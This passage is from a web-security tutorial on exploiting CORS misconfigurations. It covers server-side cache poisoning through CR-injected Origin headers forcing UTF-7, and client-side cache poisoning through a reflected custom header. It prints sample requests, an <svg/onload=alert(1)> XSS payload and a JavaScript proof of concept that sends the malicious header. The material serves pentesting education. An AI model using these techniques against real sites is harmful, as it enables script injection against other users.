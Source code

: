 Assuming that a user has access to sub.requester.com but not requester.com, and assuming that `sub.requester.com` is vulnerable to XSS. The user can exploit `provider.com` by using cross-site scripting attack method.

### **Server-side cache poisoning**

If the stars are aligned we may be able to use server-side cache poisoning via HTTP header injection to create a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability.

If an application **reflects** the **Origin header** without even checking it for illegal characters like **\r**, we effectively have a **HTTP header injection vulnerability against IE/Edge users as Internet Explorer and Edge view \r \(0x0d\) as a valid HTTP header terminator**:`GET / HTTP/1.1  
Origin: z[0x0d]Content-Type: text/html; charset=UTF-7`

Internet Explorer sees the response as:

`HTTP/1.1 200 OK  
Access-Control-Allow-Origin: z  
Content-Type: text/html; charset=UTF-7`

This isn't directly exploitable because there's no way for an attacker to make someone's web browser send such a malformed header, but I can **manually craft this request in Burp Suite and a server-side cache may save the response and serve it to other people**. The payload I've used will change the page's character set to **UTF-7**, which is notoriously useful for creating XSS vulnerabilities.

### **Client-Side cache poisoning**

You may have occasionally encountered a page with [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) in a custom HTTP header. Say a web page reflects the contents of a custom header without encoding:`GET / HTTP/1.1  
Host: example.com  
X-User-id: <svg/onload=alert(1)>  
  
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: *  
Access-Control-Allow-Headers: X-User-id  
Content-Type: text/html  
...  
Invalid user: <svg/onload=alert(1)>`

With CORS, we can send any value in the Header. By itself, **that's useless** since the response containing our **injected JavaScript won't be rendered**. However, **if Vary: Origin hasn't been specified** the response **may be stored in the browser's cache and displayed directly when the browser navigates to the associated URL**. I've made a fiddle to [attempt this attack on a URL of your choice](https://jsfiddle.net/3gk8u8wu/3/). Since this attack uses client-side caching, it's actually quite reliable.

```markup
<script>
function gotcha() { location=url }
var req = new XMLHttpRequest();
url = 'https://example.com/'; // beware of mixed content blocking when targeting HTTP sites
req.onload = gotcha;
req.open('get', url, true);
req.setRequestHeader("X-Custom-Header", "<svg/onload=alert(1)>")
req.send();
</script>
```
